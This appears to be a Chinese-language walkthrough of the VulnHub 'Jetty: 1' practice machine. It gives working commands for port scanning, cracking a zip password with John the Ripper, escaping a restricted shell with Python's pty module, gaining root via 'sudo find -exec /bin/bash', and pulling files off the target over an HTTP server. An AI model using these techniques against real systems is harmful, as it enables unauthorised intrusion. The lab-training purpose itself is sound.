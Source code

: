 靶机信息：

- **Name**: Jetty: 1
- **Date release**: 9 Dec 2020
- **download:**  https://www.vulnhub.com/entry/jetty-1,621/
- **描述：** Aquarium Life SL公司已与您联系，对他们的其中一台机器进行笔测试。他们怀疑他们的一名雇员一直在欺诈售卖假票。他们希望您闯入他的计算机，提升特权并搜索任何证明这种行为的证据。
  - 可疑用户名是squiddie。
  - 他负责水族馆的门票销售。
  - 机器的想法不仅是获得root特权，而且还获得所有证据来证明用户正在欺诈。

## 一、信息收集

#### 1.1 主机发现

 ```bash
nmap -sP 192.168.56.1/24
 ```

![image-20210126172801126](img/image-20210126172801126.png)

#### 1.2 扫描端口

```bash
➜  ~ nmap -sT -T4 -sV -p- 192.168.56.105
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-26 17:28 CST
Nmap scan report for localhost (192.168.56.105)
Host is up (0.00088s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
65507/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
MAC Address: 08:00:27:02:95:F3 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.38 seconds
```

开放 21、80、65507 端口。

#### 1.3 端口服务信息收集

80 端口，打开网址只有一张图，扫描目录得到：

```
http://192.168.56.105/
```



![image-20210126174018670](img/image-20210126174018670.png)

访问 `robots.txt`

```txt
User-agent: *
Disallow: /dir/
Disallow: /passwords/
Disallow: /facebook_photos
Disallow: /admin/secret
```

访问但是 not found.

尝试 21 端口 ftp,

```
ftp://192.168.56.105/
```

![image-20210126174459360](img/image-20210126174459360.png)

README.TXT 内容：

```txt
Hi Henry, here you have your ssh's password. As you can see the file is encrypted with the default company's password. 
Please, once you have read this file, run the following command on your computer to close the FTP server on your side. 
IT IS VERY IMPORTANT!! CMD: service ftp stop. 

Regards, Michael.
```

下载压缩包有密码，kali爆破：

```bash
zip2john sshpass.zip >>password.txt
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt
Jetty john password.txt --show

# 成功得到密码  seahorse!
➜  Jetty john password.txt --show
sshpass.zip/sshpass.txt:seahorse!:sshpass.txt:sshpass.zip::sshpass.zip

1 password hash cracked, 0 left
```

解压`unzip` ，得到

```
Squ1d4r3Th3B3$t0fTh3W0rLd
```

ssh 密码得到，尝试用户 `Jetty`登录失败，回到最开始的 `squiddie` 尝试成功：

```bash
ssh squiddie@192.168.56.105 -p 65507
```

## 二、漏洞发现

ssh 连接靶机后，发现有很多命令被禁止，输入几次就会被强制退出 ssh 连接。

尝试bash谈一个 shell回来,失败了，收到了限制。

```bash
squiddie:~$ ?
cd  clear  exit  help  history  lpath  ls  lsudo  pwd  python  whoami
```

发现目标有 python 环境并且不受限制。

python一句话弹升级交互式也失败，但是在python交互界面成功：

```python
>>> import pty
>>> pty.spawn("/bin/bash")
```

或者

```python
>>> import pty
>>> pty.spawn("/bin/bash")
```

![image-20210126200328538](img/image-20210126200328538.png)

![image-20210126200447978](img/image-20210126200447978.png)

成功突破限制。

## 三、提权

直接 `sudo -l`

![image-20210126201744737](img/image-20210126201744737.png)

发现可以以 root 身份执行 find 命令.

**有时用户有权执行特定目录的任何文件或命令，如/bin/cp、/bin/cat或/usr/bin/find，这种类型的权限会导致root权限的权限提升。**

```
sudo find /home -exec /bin/bash \;
```

直接提权为 root .

完成小目标。但是描述说提权只是中等难度，拿到他的犯罪证据才是关键的。

## 四、取证

查看定时任务

![image-20210126202214746](img/image-20210126202214746.png)

发现有定时任务。

查看它：

```bash
root@jetty:~# cat /etc/cron.daily/backup 
#!/bin/sh

#BACKUP FILES EVERY TWO MINUTES
rsync -raz /root/Documents/.docs /var/backups/
chmod 700 /var/backups/.docs
```

![image-20210126210700528](img/image-20210126210700528.png)

目录下有很多表格，将其打包，然后开启 http服务(python2)

```bash
python -m SimpleHTTPServer 8000
```



![image-20210126210949592](img/image-20210126210949592.png)

kali中下载

![image-20210126211103094](img/image-20210126211103094.png)

成功下载，接下来解压

```bash
unzip doc.zip -d doc/
```

尝试打开文档，但是发现被加密了

![image-20210126211822248](img/image-20210126211822248.png)

在`Password_keeper` 文件夹下发现，有个exe 文件，还有`database.txt` ，`usage.txt` ,相关联，不能发现是 exe 对表格进行的加密。

![image-20210126212000317](img/image-20210126212000317.png)

base64解码是乱码。database.txt里面保存着密文，那么关键就是password_keeper.exe程序了。

![image-20210126212359537](img/image-20210126212359537.png)

运行软件发现， 1 功能可以查看密码，但是还需要密码验证。

https://www.cnblogs.com/backlion/p/10504003.html